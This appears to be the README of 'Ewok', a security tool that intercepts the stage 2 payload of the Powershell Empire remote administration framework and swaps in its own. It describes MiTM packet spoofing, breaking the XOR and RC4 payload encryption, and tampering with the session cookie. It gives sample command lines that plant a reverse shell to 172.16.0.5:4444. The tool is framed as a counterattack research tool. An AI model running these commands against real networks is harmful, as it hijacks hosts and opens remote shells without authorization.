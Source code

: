 Ewok is a utility that demonstrates man-in-the-middle (MiTM) [counter]attacks
against Powershell Empire. 

Powershell Empire is a well designed, extremely functional, and very useful
remote administration tool for Microsoft Windows hosts. It is a wise choice 
for anyone who wishes to maintain control over a compromised Microsoft Windows
host. However, its staging process is also vulnerable to MiTM.

This program is primarily a packet sniffer. Anyone wishing to use it in a live
environment should have the following:

- Access to network traffic for the compromised host(s)
- Network access to the TCP port running the Powershell Empire staging server

When this program is used in a live environment, it does the following:

1) It reaches out to the staging server and acquires a live stage 2 payload
2) It repackages that payload with its own software
3) It delivers the payload by using packet spoofing to "overwrite" the HTTP
responses from the staging server.

However, the program can be used to assist in these attacks by constructing
the payload that would presumably be delivered in a manner of the user's
choosing. If the user wants to redirect web traffic to an alternate web server
instead of the staging server, for example, the payload can be delivered that
way too.

[Counter] Attacks against Powershell Empire 1.x will require the user to know
the URL for the staging server. The URL may be acquired through brute-force, 
although this functionality is currently not implemented.

Here is a sample command line for targeting Powershell Empire 1.6:

	./ewok.salad -u http://10.1.1.10:8080/login/process.php -c 172.16.0.5
	# This command acquires the stage 2 payload from the URL listed, 
	# and then delivers a modified payload that causes the compromised
	# host to execute a reverse shell to 172.16.0.5:4444 instead of
	# introducing Powershell Empire remote administration software.

[Counter] Attacks against Powershell Empire 2.x will require a valid 
"session cookie". This valid is delivered to the staging server and mimic's
an actual session cookie that might be used to track web users.
This value is a base64 encoded chunk of encrypted data. When decrypted,
it is a binary description of the data the staging script is requesting.
We are most concerned with the 11th byte of this field, because it describes
the language that the next set of instructions will be written in. In practice,
its value will be either 0x01 for Powershell or 0x02 for Python. The Python
payload is easier to modify, so the software alters this value, if the staging
server returns the "wrong" script initially. Because the cookie is encrypted
with RC4, modifying it to cause the server to return the desired script takes
only the three following steps:
1) Decode the "session cookie" as a base64 encoded string
2) XOR byte 12 against 0x03
3) Re-encode the modified data as a base64 encoded string
4) Request the script again

Here is a sample command line for targeting Powershell Empire 2.0:

	./ewok.salad -s WVUP/J2edjRlqEH9ctiRu75mpOM= -u http://10.1.1.10/login/process.php -t ./template -c 172.16.0.5
	# This command acquires the stage 2 payload, and if necessary, requests
	# the Python version of this software. It then repackages it with the
	# desired software. By default, this software is a Powershell "reverse
	# shell. The host specified with the "-c" flag is the host that will
	# receive this reverse shell on TCP port 4444
	# The "-t" flag designates the plaintext version of the data we are 
	# expecting to acqurie. We assume that "./template" in this example is
	# the Python staging software.

This above example requires the user to have a plaintext version of the Python
staging software. This file is actual software, and distributing it without the
consent of its authors is problematic. Users can acquire their own copy by 
executing the following command (the script is included in this distribution:
	./grabtemplate.sh ./template.sh

This program also allows users to create their own stage 2 payload for 
distribution elsewhere. The "-o" flag will allow for this payload to be 
written to a file.

Powershell Empire's stage 1 (we aren't counting from 0) staging script is what
it's users may observe when introducing this software via a command line. 
The commands that typically introduce this software to a compromised host 
include a base64 encoded string that decodes to the "stage 1" script. This 
script is relatively small, and does the following tasks:

1) Request the [much larger] stage 2 payload from the staging server via
HTTP
2) Decrypt (version 2.0) or de-obfuscate (version 1.x) the stage 2 payload
with the shared secret key
3) Execute this payload

The stage 1 script does not check signatures or validate the payload before
executing what it has decrypted/deobfuscated. This utility repackages the
"stage 2" payload and delivers it through packet spoofing. Assuming that
"ewok" has the proper network access, it will overwrite the HTTP responses
so that the "stage 1" script will download and decrypt/deobfuscate its 
scripts instead of the actual Powershell Empire stage 2 script.

"Ewok" accomplishes the repackaging by attacking the encoding/encryption of 
these payloads. Version 1.x uses XOR and a shared secret key to encode/decode
this payload. Because the plaintext is a Powershell Script, we can predict the
frequencies that certain characters occur. Some will occur much more often than
others. Furthermore, the key that it uses to XOR/unXOR the payload is an ASCII
representation of a hexadecimal number. Therefore there are only 16 possible
values for each offset. The limited keyspace and the predictability of the 
plaintext enable [counter]attackers to acquire the key through accomplishes
modeling. "Ewok" does this, and uses the key to create a new payload.

The repackaging for 2.x payloads is slightly different. RC4 is vulnerable to
MiTM, assuming that the [counter]attacker knows the plaintext. "Ewok" requests
the Python payload, because it has much less entropy than the Powershell 
payload, due to Powershell Empire's randomization of case for Powershell
commands.

